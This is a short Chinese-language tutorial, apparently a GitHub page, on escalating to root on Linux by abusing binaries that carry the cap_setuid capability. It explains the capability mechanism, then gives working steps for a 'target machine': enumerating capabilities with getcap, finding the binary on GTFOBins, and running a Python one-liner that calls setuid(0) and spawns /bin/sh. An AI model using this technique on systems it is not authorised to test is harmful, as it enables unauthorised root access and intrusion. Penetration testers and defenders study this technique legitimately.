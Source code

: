 # 利用capabilities提权的方法

## Capabilities漏洞利用机制：
原理很简单，就是将之前与超级用户root（UID=0）关联的特权细分为不同的功能组，Capabilites作为线程（Linux并不真正区分进程和线程）的属性存在，每个功能组都可以独立启用和禁用。其本质上就是将内核调用分门别类，具有

相似功能的内核调用被分到同一组中。

这样一来，权限检查的过程就变成了：在执行特权操作时，如果线程的有效身份不是root，就去检查其是否具有该特权操作所对应的capabilities，并以此为依据，决定是否可以执行特权操作。

如果Capabilities设置不正确，就会让攻击者有机可乘，实现权限提升。

## 利用思路：

收集带有capabilities属性的程序，而该程序带有capabilities就等于执行时带有特权，便可以用该程序进行uid的切换，切换为0即为root

## 操作
### 1.在目标机上以普通用户登录后运行
```
getcap -r /
或
getcap -r / 2>/dev/null
```
查看带有cat_setuid的capability的程序。

例子：
```
/usr/bin/python = cap_setuid_ep
```

### 2.根据该程序的名称到GTFOBins上进行查找，选择capabilities那一行
例子：

![3082583-20230323110811090-1289384431](https://github.com/user-attachments/assets/3e372a33-c9ac-4b0c-9813-38d6db09eb75)

### 3.在目标机上运行
```
/usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/sh")'
```
即可为root
